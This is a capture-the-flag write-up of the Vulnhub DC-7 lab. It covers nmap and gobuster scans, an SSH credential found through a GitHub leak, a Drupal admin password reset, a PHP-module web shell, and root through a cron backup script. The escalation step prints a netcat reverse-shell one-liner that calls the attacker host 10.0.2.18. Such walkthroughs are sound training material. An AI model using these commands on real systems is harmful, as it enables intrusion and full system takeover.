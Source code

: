 ```yaml
---
"title": "Vulnhub - DC 7"
"date": 2019-11-23
"tags": ["medium", "drupal", "cron"]
"keywords": ["medium", "drupal", "cron"]
"categories": ["Vulnhub"]
"author": "Ghostbyt3"
"description": "Today, We are going to pwn DC 7 by DCAU7 from Vulnhub"
"featured_image": "/img/dc7/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Vulnhub - Writeup"
---
```



![Untitled](/img/dc7/1.png)
Today, We are going to pwn DC 7 by DCAU7 from Vulnhub


## Description
>DC-7 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
While this isn't an overly technical challenge, it isn't exactly easy.
While it's kind of a logical progression from an earlier DC release (I won't tell you which one), there are some new concepts involved, but you will need to figure those out for yourself. :-) If you need to resort to brute forcing or dictionary attacks, you probably won't succeed.
What you will need to do, is to think "outside" of the box.
Waaaaaay "outside" of the box. :-)
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

Download Link : [https://www.vulnhub.com/entry/dc-7,356/](https://www.vulnhub.com/entry/dc-7,356/)

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 d0:02:e9:c7:5d:95:32:ab:10:99:89:84:34:3d:1e:f9 (RSA)
|   256 d0:d6:40:35:a7:34:a9:0a:79:34:ee:a9:6a:dd:f4:8f (ECDSA)
|_  256 a8:55:d5:76:93:ed:4f:6f:f1:f7:a1:84:2f:af:bb:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Welcome to DC-7 | D7
MAC Address: 08:00:27:6F:D5:25 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there is a HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.12
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/29 18:24:01 Starting gobuster
===============================================================
/.config (Status: 403)
/.cvs (Status: 403)
/.bash_history (Status: 403)
/.hta (Status: 403)
/.cache (Status: 403)
/.git/HEAD (Status: 403)
/.bashrc (Status: 403)
/.forward (Status: 403)
/.cvsignore (Status: 403)
/.passwd (Status: 403)
/.profile (Status: 403)
/.perf (Status: 403)
/.rhosts (Status: 403)
/.mysql_history (Status: 403)
/.listings (Status: 403)
/.sh_history (Status: 403)
/.ssh (Status: 403)
/.svn (Status: 403)
/.subversion (Status: 403)
/.history (Status: 403)
/.htaccess (Status: 403)
/.web (Status: 403)
/.swf (Status: 403)
/.listing (Status: 403)
/.htpasswd (Status: 403)
/.svn/entries (Status: 403)
/Admin (Status: 403)
/admin (Status: 403)
/ADMIN (Status: 403)
/batch (Status: 403)
/core (Status: 301)
/Entries (Status: 403)
/index.php (Status: 200)
/install.mysql (Status: 403)
/install.pgsql (Status: 403)
/modules (Status: 301)
/node (Status: 200)
/profiles (Status: 301)
/robots.txt (Status: 200)
/Root (Status: 403)
/search (Status: 302)
/Search (Status: 302)
/server-status (Status: 403)
/sites (Status: 301)
/themes (Status: 301)
/user (Status: 302)
/vendor (Status: 403)
/web.config (Status: 200)
===============================================================
2019/11/29 18:27:52 Finished
===============================================================
```

## OSINT 

While checking the webpage it is a ``Drupal CMS`` which is one of the well know CMS.
![Untitled](/img/dc7/1.png)

Cant find anything useful on the pages but ``Think outside the box`` It looks like an hint.
At the end of the page it looks like an username[br/](br/)

![Untitled](/img/dc7/2.png)

Mostly this ```@``` use in social medias so i searched for the user and found an account on twitter.[br/](br/)
![Untitled](/img/dc7/3.png)

And there is a github link
>https://github.com/Dc7User/

## Getting User Credentials

While checking the repo found some credentials.
![Untitled](/img/dc7/4.png)

I tried login in drupal but cant so i tried in ssh.
>dc7user:MdR3xOgB7#dW

![Untitled](/img/dc7/5.png)

And it worked!!

First is first I checked the home directory and found there is a script running.[br/](br/)
![Untitled](/img/dc7/6.png)

Inside ``backup.sh`` I found ``drush`` which is drupal shell

![Untitled](/img/dc7/8.png)

And the script running as root and www-data so , If we became ``www-data`` and we can get reverse shell using ``backup.sh`` and we can get ``root``.

![Untitled](/img/dc7/7.png)

Since drush is there I googled for drush commands and found 
>https://drushcommands.com/drush-7x/user/user-password/

> drush user-password admin ---password=admin

## Getting Shell as www-data

We successfully logged in with new password ``admin:admin``[br/](br/)
![Untitled](/img/dc7/9.png)

Now its time to get reverse shell and found we can upload modules in ``Extend Tab``[br/](br/)
![Untitled](/img/dc7/10.png)

I found this 
>[https://www.drupal.org/project/php](https://www.drupal.org/project/php)

I clicked on the Install new module button and uploaded this!

![Untitled](/img/dc7/11.png)

After checking its enabled I went to ``Content -> Add content -> basic page`` and then select the ``Text format`` to be PHP code and copy paste the reverse shell code.

![Untitled](/img/dc7/12.png)

Clicking Preview while the listener is running i got the shell and we are ```www-data```
![Untitled](/img/dc7/13.png)


## Privilege Escalation

We already know that the script is running as root and www-data so we can add our reverse shell to get root

``` echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.18 4444 >/tmp/f" >> backups.sh ```

![Untitled](/img/dc7/14.png)

Wait for sometime because cron is running!

![Untitled](/img/dc7/15.png)

We got Root !!












